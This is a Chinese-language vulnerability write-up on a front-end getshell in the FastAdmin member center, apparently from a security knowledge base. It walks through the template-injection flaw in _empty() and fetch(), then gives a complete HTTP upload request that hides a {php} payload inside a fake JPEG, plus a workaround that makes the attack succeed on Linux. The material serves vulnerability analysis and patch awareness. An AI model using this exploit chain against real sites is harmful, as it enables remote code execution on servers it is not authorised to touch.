




FastAdmin 会员中心前台getshell
==============================

一、漏洞简介
------------

### 利用条件

`/application/config.php` 文件中：

    //是否开启前台会员中心
    'usercenter'            => true,

即需要开启会员中心功能

二、漏洞影响
------------

V1.0.0.20200506\_beta

三、复现过程
------------

### 漏洞分析

`/application/index/User.php`文件

第58-67行：

     public function _empty($name)
        {    
            $data = Hook::listen("user_request_empty", $name);
                foreach ($data as $index => $datum) {
                $this->view->assign($datum);
                }
        return $this->view->fetch($name);
    }
    user_request_empty`为开发者预留的钩子可以忽视不看，主要看` return $this->view->fetch($name);

此方法中的`$name`参数可控，并且将`$name`的值传入到了`fecth()`函数中。

`fetch()`为thinkphp的解析模板函数，其返回模板文件渲染后的内容

`fetch()`函数的关键内容如下：

      public function fetch($template, $data = [], $config = [])
        {
            if ('' == pathinfo($template, PATHINFO_EXTENSION)) {
                // 获取模板文件名
                $template = $this->parseTemplate($template);
            }
            // 模板不存在 抛出异常
            if (!is_file($template)) {
                throw new TemplateNotFoundException('template not exists:' . $template, $template);
            }
            // 记录视图信息
            App::$debug && Log::record('[ VIEW ] ' . $template . ' [ ' . var_export(array_keys($data), true) . ' ]', 'info');
            $this->template->fetch($template, $data, $config);
        }

继续调用栈可以看下其实这个fetch()函数调用的是内置模板引擎的fetch方法，
这个方法实际上就是将要输出的页面内容赋值给一个变量，为了方便，thinkphp在对模板渲染的过程中，添加了php标签功能，使得其可以解析php代码。

总之一句话，这个漏洞其实就是由于对传入变量过滤不严导致的模板引擎注入漏洞，只要控制了传入模板的文件，就可以利用模板本身的渲染功能，实现包含漏洞getshell

另外需要注意的是，当验证传入的模板是否是文件时，使用的`is_file()`函数，这个函数在Linux下和windows下的判断会有所不同，具体如下：

1、在linux下利用`is_file()`来判断类似于`/****/../../../../etc/passwd`文件时，如果`****`是不存在的目录，则会返回false，在windows下
，这个目录存在与否，均返回true，如下图所示：

2、在linux下，`is_file()`函数判可用于判断符号链接

3、在linux下，`is_file`函数会受到权限的影响，当前用户权限不足或父目录没有设置+x权限时，`is_file()`会返回false

4、windows系统里面`/`和`\` 都可以使用，但是在linux下只能使用`/`
来分隔路径，因此这会导致`is_file()`在不同系统下的返回结果不一致

5、`is_file()`判断文件时，如果文件大小超过2\^32时，会判断失败

### 漏洞复现

通过前文可知，这个漏洞的利用点在`_empty()`函数，需要注意的是，在官方文档中通常`_empty()`方法是用来判断一个方法是否存在，如果不存在，则进入该函数。而这里是开发者自定义的方法，因此直接传入`_empty`方法，调用name参数即可。

利用过程如下：

在前台的会员中心，个人资料处，上传修改头像：

抓包后修改图片数据（满足图片头格式即可）：

    POST /index/ajax/upload HTTP/1.1
    Host:www.0-sec.org:8088
    Content-Length: 596
    Origin: http://122.114.216.233
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Accept: */*
    Referer: http://103.40.247.24/index/user/profile.html
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1600651554; PHPSESSID=e42uhkmhirv29cpd82qbubigd7; uid=3; token=251be91c-040b-4231-b955-76c3ecfaf4f4; Hm_lpvt_f8d0a8c400404989e195270b0bbf060a=1600651809
    Connection: close

    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Content-Disposition: form-data; name="name"

    400x400a0a0.jpg
    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Content-Disposition: form-data; name="file"; filename="400x400a0a0.jpg"
    Content-Type: image/jpeg

    ÿØÿà8Photoshop 3.08BIM8BIM%"
    {php}phpinfo();{/php}
    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq--

记录下路径后，成功getshell

在Linux下，通过这种方法会失效，因为在`/public`路径下不存在`user`目录，由前文中的知识点可以知道，当不存在这个目录的时候，无论怎么跳转目录，`is_file()`函数返回的结果始终未false，因此无法利用该漏洞，如下图所示：

当我们在`/public`目录下创建文件夹`/user`，在利用，即可成功：

参考链接
--------

> https://www.cnpanda.net/codeaudit/777.html
